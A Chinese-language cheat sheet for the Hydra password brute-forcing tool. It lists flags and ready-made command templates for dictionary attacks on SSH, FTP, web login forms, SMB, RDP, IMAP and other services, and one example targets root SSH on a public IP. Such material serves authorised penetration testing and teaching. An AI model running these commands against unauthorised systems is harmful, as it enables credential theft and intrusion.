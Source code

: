 # hydra是一款开源的暴力密码破解工具

支持多种协议密码的破解。

```
hydra -l root -P top500.txt  39.107.221.203  ssh
```



```
1.使用字典对目标服务进行破解。
hydra -L user.txt -P password.txt ssh://192.168.3.163

2.当目标服务开放的端口不是默认端口时，使用 -s 进行指定。
hydra -L user.txt -P password.txt ssh://192.168.3.163 -s 40

3.将破解的密码存储到指定文件。
hydra -L user.txt -P password.txt ssh://192.168.3.163 -s 40 -o ssh.txt
```

```
-R 还原以前中止或崩溃的会话

-S 使用SSL连接

-s 指定非默认端口

-l 使用登录名进行登录

-L 使用账号字典进行破解

-p 使用密码进行登录

-P 使用密码字典进行破解

-e nsr n:空密码破解 s：使用的user作为密码破解 r：反向登录

-C 指定所用格式为"user:password"字典文件

-M 指定破解的目标文件，如果不是默认端口，后面跟上": port"

-o 将破解成功的用户名：密码写入指定文件

-b 指定文件类型(txt (default)，json，jsonv1)

-f / -F 在找到用户名或密码时退出( -f 每个主机 -F 主机文件)

-t 设置每个目标并行连接数(默认为16)

-T 任务总体的并行连接数（默认为64）

-w /-W 设置超时时间(默认为32秒) 每个线程之间连接等待时间(默认为0)

-v / -V / -d 详细模式 / 显示login+pass 每个尝试 / 调试模式

-O 使用老版本SSL V2和V3

-q 不输出连接错误信息

-U 查看 支持破解的服务和协议

server 目标ip、某个网段

service 指定服务/协议名称

OPT 某些模块支持附加输入  
```



## hydra支持破解的服务/协议对应功能的参数模板

### 1、破解ssh：
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh

hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

### 2、破解ftp：

hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

### 3、get方式提交，破解web登录：

```
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```



### 4、post方式提交，破解web登录：
hydra -l 用户名 -P 密码字典 -s 80 ip

http-post-form “/admin/login.php:username=USER&password=PASS&submit=login:sorry password”

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,
### 5、破解https：
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

### 6、破解teamspeak：
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

### 7、破解cisco：
hydra -P pass.txt 10.36.16.18 cisco

hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

### 8、破解smb：
hydra -l administrator -P pass.txt 10.36.16.18 smb

### 9、破解pop3：
hydra -l muts -P pass.txt my.pop3.mail pop3

### 10、破解rdp：
hydra ip rdp -l administrator -P pass.txt -V

### 11、破解http-proxy：

hydra -l admin -P pass.txt http-proxy://10.36.16.18

### 12、破解imap：

hydra -L user.txt -p secret 10.36.16.18 imap PLAIN

hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN



